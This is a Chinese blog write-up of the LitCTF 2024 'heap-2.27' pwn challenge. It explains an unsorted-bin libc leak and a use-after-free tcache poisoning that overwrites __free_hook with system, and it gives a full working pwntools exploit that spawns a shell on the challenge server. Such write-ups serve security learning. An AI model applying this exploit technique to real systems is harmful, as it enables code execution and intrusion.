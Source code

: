 ```yaml
---
title: '[LitCTF 2024]heap-2.27'
date: 2024-11-13 0:20 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.27](https://www.nssctf.cn/problem/5615)

## 思路
	通过`unsortbin`泄漏`libc`地址，根据地址找到`free_hook`函数所在。
	`delete`函数中存在`uaf`，使得我们能够修改已经释放的堆块，因此，我们可以通过修改堆块的`fd`申请到任意内存位置的堆块，实现`free_hook`劫持。
	需要了解unsortbin生成条件，free_hook劫持原理。

## EXP
```
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
#elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28014)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'size? ',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx? ',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx? ',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'content :',content)

create(0,0x10)
create(1,0x420)
create(2,0x10)
delete(1)
show(1)

free_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x1c48
log.info(hex(free_hook))
libc_base = free_hook-lib.sym['__free_hook']
sys_addr = libc_base + lib.sym['system']
#pause()

create(3,0x10)
delete(3)
edit(3,p64(free_hook))
create(4,0x10)
create(5,0x10)
#pause()
edit(5,p64(sys_addr))
edit(4,b'/bin/sh')
delete(4)


io.interactive()```

## 总结
	学到一个小技巧，在pwngdb中可以通过`p &__free_hook`配合`distance`确定位置。
